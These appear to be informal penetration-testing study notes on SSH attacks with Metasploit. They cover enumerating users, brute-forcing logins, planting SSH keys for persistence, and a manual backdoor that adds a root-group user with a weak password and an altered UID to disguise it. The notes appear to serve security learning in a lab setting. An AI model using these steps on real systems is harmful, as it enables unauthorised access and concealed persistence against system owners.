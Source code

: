 first exploit it
- module ssh_enumusers (get users in target)
- module ssh_login (get password of user then loggin)
-------------------
we now have open session in target we want to have persistence so if we lose connection in target we still want to connect , so we will find ssh id_rsa key 
- module post/linux/manage/sshkey_persistence (it will give us a rsa key and path if not we can enbale createsshfolder and it will make us new one)
	- set username jackie
	- set session 2(depends where is you session shell)
	- run (it will create for us path of key and place where key is save on target system)
	- loot (will show us our key path)
- module auxiliary/scanner/ssh/ssh_login_pubkey (we want to use these credentials keys and use it)
	- set username jackie
	- set key_pass "key"
	- set key_path "/path/to/key_file"
	- run (it should open new sessions with same privileges as jackie)
- we can do it manually 
	- loot and get path of key in our system 
		- cat key_file and copy contents
		- make new file called ssh_key
		- chmod 0400 ssh_key
		- ssh -i ssh_key user@192.169.2.3
		- we are connected


backdoor manually
- cat /etc/passwd
- useradd -m ftp -s /bin/bash
- passwd ftp password123
- cat/etc/passwd
- usermod -aG root ftp
- groups ftp
- change the time this user has been created
	- usermod -u 15 ftp